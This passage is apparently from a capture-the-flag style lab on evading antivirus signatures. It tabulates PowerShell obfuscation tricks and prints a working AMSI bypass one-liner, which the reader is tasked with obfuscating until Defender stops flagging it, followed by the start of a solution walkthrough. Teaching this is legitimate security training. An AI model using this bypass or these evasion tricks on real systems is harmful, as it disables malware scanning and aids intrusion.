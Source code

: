 Extending from concatenation, attackers can also use **non-interpreted characters** to disrupt or confuse a static signature. These can be used  independently or with concatenation, depending on the  strength/implementation of the signature. Below is a table of some  common non-interpreted characters that we can leverage.

| **Character ** | **Purpose **                                                 | **Example**                 |
| -------------- | ------------------------------------------------------------ | --------------------------- |
| Breaks         | Break a single string into multiple sub strings and combine them | `('co'+'ffe'+'e')`          |
| Reorders       | Reorder a string’s components                                | `('{1}{0}'-f'ffee','co')`   |
| Whitespace     | Include white space that is not interpreted                  | `.( 'Ne' +'w-Ob' + 'ject')` |
| Ticks          | Include ticks that are not interpreted                       | `d`own`LoAd`Stri`ng`        |
| Random Case    | Tokens are generally not case sensitive and can be any arbitrary case | `dOwnLoAdsTRing`            |

------

Using the knowledge you have accrued throughout this task, obfuscate the  following PowerShell snippet until it evades Defender’s detections.

```powershell
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

To get you started, we recommend breaking up each  section of the code and observe how it interacts or is detected. You can then break the signature present in the independent section and add  another section to it until you have a clean snippet.

##### solution

Once you think your snippet is sufficiently obfuscated, submit it to the webserver at `http://MACHINE_IP` ; if successful a flag will appear in a pop-up.



If you are still stuck we have provided a walkthrough of the solution below.

<details open=""><summary><u><i>Solution Walkthrough (Click to read)</i></u></summary><span style="font-size:1rem"><br>To begin trying to clean this code snippet we need to break it down and understand where the alerts are originating.</span>
<p>We can break the snippet where each cmdlet is present (<code>GetField</code>, <code>SetValue</code>)</p>
<ol>
<li><code>[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils')</code></li>
<li><code>[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static')</code></li>
<li><code>[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)</code></li>
</ol>
<p>Let’s execute the first code snippet and see what PowerShell returns.</p>
<pre class=" language-powershell" tabindex="0"><code class=" language-powershell"><span class="token function">PS</span> M:\\&gt; <span class="token namespace">[Ref]</span><span class="token punctuation">.</span>Assembly<span class="token punctuation">.</span>GetType<span class="token punctuation">(</span><span class="token string">'System.Management.Automation.AmsiUtils'</span><span class="token punctuation">)</span>
At line:1 char:1
<span class="token operator">+</span> <span class="token namespace">[Ref]</span><span class="token punctuation">.</span>Assembly<span class="token punctuation">.</span>GetType<span class="token punctuation">(</span><span class="token string">'System.Management.Automation.AmsiUtils'</span><span class="token punctuation">)</span>
<span class="token operator">+</span> ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
This script contains malicious content and has been blocked by your antivirus software<span class="token punctuation">.</span>